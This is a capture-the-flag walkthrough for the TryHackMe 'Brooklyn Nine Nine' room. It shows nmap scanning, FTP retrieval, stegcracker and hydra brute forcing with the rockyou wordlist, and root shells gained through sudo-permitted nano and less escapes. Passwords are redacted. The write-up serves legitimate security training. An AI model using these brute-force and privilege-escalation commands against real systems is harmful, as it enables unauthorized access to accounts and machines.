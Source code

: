 # Tryhackme room address

**https://tryhackme.com/room/brooklynninenine**

> This room is aimed for beginner level hackers but anyone can try to hack this box. There are two main intended ways to root the box


> **nmap -sC -sV 10.10.101.251**

visit the webpage
analyse source 
we got a hint 
```
Have you ever heard of steganography?
```
lets download the image

**wget http://10.10.101.251/brooklyn99.jpg**
looks like the image is password protected

let's look into our nmap scan result now

we have ftp,ssh and http

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-29 01:50 IST
Stats: 0:02:31 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 90.07% done; ETC: 01:53 (0:00:16 remaining)
Nmap scan report for 10.10.101.251
Host is up (1.8s latency).
Not shown: 978 closed ports
PORT      STATE    SERVICE         VERSION
21/tcp    open     ftp             vsftpd 3.0.3
22/tcp    open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
49/tcp    filtered tacacs
80/tcp    open     http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
306/tcp   filtered unknown
444/tcp   filtered snpp
912/tcp   filtered apex-mesh
1002/tcp  filtered windows-icfw
1041/tcp  filtered danf-ak2
1087/tcp  filtered cplscrambler-in
1148/tcp  filtered elfiq-repl
1169/tcp  filtered tripwire
1641/tcp  filtered invision
2601/tcp  filtered zebra
5003/tcp  filtered filemaker
6692/tcp  filtered unknown
9898/tcp  filtered monkeycom
9944/tcp  filtered unknown
11111/tcp filtered vce
18988/tcp filtered unknown
32778/tcp filtered sometimes-rpc19
51103/tcp filtered unknown
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel


```
let's check out ftp 

ftp <machine ip>

mget note_to_jake.txt

```
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```

from here we have two ways to get into machine  


## Methode 1 : bruteforcing the image 

we can  try  bruteforcing the imgage file with stegcracker   

> **stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt**  

is you dont have stegcrack you can install it by  

> **pip3 install stegcracker** 

```
Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: <password>
Tried 20523 passwords
Your file has been written to: brooklyn99.jpg.out

```

let's extract the data  

> **steghide extract -sf brooklyn99.jpg -p <password>**

```
Holts Password:
<holt's password>

Enjoy!!
```

ssh into the machine  

you have the user flag  

run **sudo -l**  

```
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

we can use nano to execute commands  

> sudo nano  

> ctrl+r and ctrl+x  

> reset; sh 1>&0 2>&0  

you are now root user

## Methode 2 : bruteforcing ssh

Jake's password is weak  so we can give it a try with hydra on ssh

> **hydra -l Jake -P /usr/share/wordlists/rockyou.txt 10.10.142.237 -f -t 4 ssh**  
use -f to exit when a login/pass pair is found  

```
/10.10.98.234 -f -t 4 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-29 23:58:44
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.98.234:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.98.234   login: jake   password: <ssh password>
[STATUS] attack finished for 10.10.98.234 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

ssh into jake 

user.txt is on home folder of holt  


let's do **sudo -l**

```
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less

```

> **sudo less /etc/profile**

> **!/bin/bash**

you're root now 

